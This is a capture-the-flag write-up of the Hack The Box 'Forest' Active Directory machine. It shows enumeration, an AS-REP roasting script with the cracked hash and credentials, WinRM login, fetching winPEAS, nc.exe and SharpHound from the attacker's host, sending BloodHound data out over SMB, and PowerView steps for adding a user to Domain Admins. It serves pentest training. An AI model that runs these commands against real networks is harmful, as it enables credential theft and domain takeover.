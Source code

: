 # Forest HTB

![image](https://user-images.githubusercontent.com/5285547/124309753-1d9ce980-db63-11eb-91d7-26363021d41c.png)

## Nmap

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49915/tcp open  unknown
```

![image](https://user-images.githubusercontent.com/5285547/124294786-fee12780-db4f-11eb-88e6-68fcfdd18055.png)

![image](https://user-images.githubusercontent.com/5285547/124294837-0e607080-db50-11eb-90a6-eed955859f71.png)

Add to /etc/hosts file

## Enum4linux 
- Users
```
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[noodle] rid:[0x1db2]
```

## ASREPRoast
- Users.txt
```
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
```

- Quick and dirty bash script to use with users.txt 

```
#!/bin/bash

file="$1";

for user in $(cat "$file");do
        python3.9 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass \
  "htb.local/${user}" -dc-ip 10.10.10.161 ;
done
```

Run the script ./ASREPRoast.sh users.txt
```

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:136c3526a51157f1e7b050205902811c$f36282d5015687302ace5572a7265c7775000fdd0c83f4a5965dfdc129d028384fcf106744318f3c8d56f787074df01b336a97764532e9cc60c04b4f8c0c4984b6f2c44145b58eb12f3d80b273d8859ecd0d0b7e84842491990ddd17d90e46489b808798b43b157ea3d41998b5a55ac737a97cf7f1cd27a1ae871d1cde63148d12a0a4c45db0486b86c446f056759e77bf0a7cf5bae2c6bbd5bcbe4a646fdd903af7f751c4d187e98ab8dc0b4c2053c1a07947f2ee827789cec2dada31acf363d75ddaa6dcec80645223234ccdb18dae424c2140062ffc9ddcf7bd64938fd368b2d66fb56827
```

## Cracking the hash 

Adding the hash to a new file then using john to crack the Kerberos password

```
john -w=/usr/share/wordlists/rockyou.txt hash 
```

```
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2021-07-02 16:37) 0.3289g/s 1344Kp/s 1344Kc/s 1344KC/s s4553592..s3r2s1
```
valid creds
```
svc-alfresco:s3rvice
```

## Conencting to the forest 

- WinRm
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

![image](https://user-images.githubusercontent.com/5285547/124300141-22a76c00-db56-11eb-8fbc-07b6d3245732.png)

## User flag

Change direcroty to the dekstop to retrive the user flag

user.txt
```
e5e4e47ae{REDACTED}eb013fb0d9ed
```

## User Enumeration

We start the enum again to see what we can do next..  
I transfer winpeas to the machine to do some quick enum for me. 

```
Invoke-WebRequest "http://10.10.14.184:6677/winPEASany.exe" -OutFile "winpea.exe"
```

- Using SharpHound and BloodHound

Bloodhound
```
https://github.com/BloodHoundAD/BloodHound
```

SharpHound
```
https://github.com/BloodHoundAD/SharpHound3
```

Transfer nc.exe for an easier time 
```
Invoke-WebRequest "http://10.10.14.184:8877/nc.exe" -OutFile "nc.exe"
```

Run sharphound after sending it across
```
Invoke-WebRequest "http://10.10.14.184:8877/SharpHound.exe" -OutFile "sharp.exe"
./sharp.exe
```

![image](https://user-images.githubusercontent.com/5285547/124304304-69e42b80-db5b-11eb-856e-7212e9d798c5.png)


Now to get the files back for bloodhound

Setup an smb share on kali

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py MYSHARE ~/forest -smb2support -username haxors -password haxors
```
Auth
```
net use \\10.10.14.184\MYSHARE /u:"haxors" "haxors"
```
Copy the file across
```
copy 20210702093445_BloodHound.zip \\10.10.14.184\MYSHARE
```
Remove the smb share
```
net use /d \\10.10.14.184\MYSHARE
```

Now login to bloodhound gui (or use sudo apt-get install bloodhound)  
Click the upload data buttonv

![image](https://user-images.githubusercontent.com/5285547/124308285-ffce8500-db60-11eb-8f78-a21fc2fd71c1.png)

Once the data is uploaded click the "find shortest path to domain admin"  

![image](https://user-images.githubusercontent.com/5285547/124308486-415f3000-db61-11eb-9bab-a750285bea94.png)

![image](https://user-images.githubusercontent.com/5285547/124308680-8b481600-db61-11eb-939d-573b9d1770d2.png)
 
Right click on the path to the "EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL" then select help.

Help
```
Full control of a group allows you to directly modify group membership of the group.

There are at least two ways to execute this attack. The first and most obvious is by using the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" harmj0y /add /domain). See the opsec considerations tab for why this may be a bad idea. The second, and highly recommended method, is by using the Add-DomainGroupMember function in PowerView. This function is superior to using the net.exe binary in several ways. For instance, you can supply alternate credentials, instead of needing to run a process as or logon as the user with the AddMember privilege. Additionally, you have much safer execution options than you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into your agent session or into a PowerShell instance at the console. You may need to authenticate to the Domain Controller as a member of ACCOUNT OPERATORS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainGroupMember, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running a process as ACCOUNT OPERATORS@HTB.LOCAL:

Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

Get-DomainGroupMember -Identity 'Domain Admins'
```


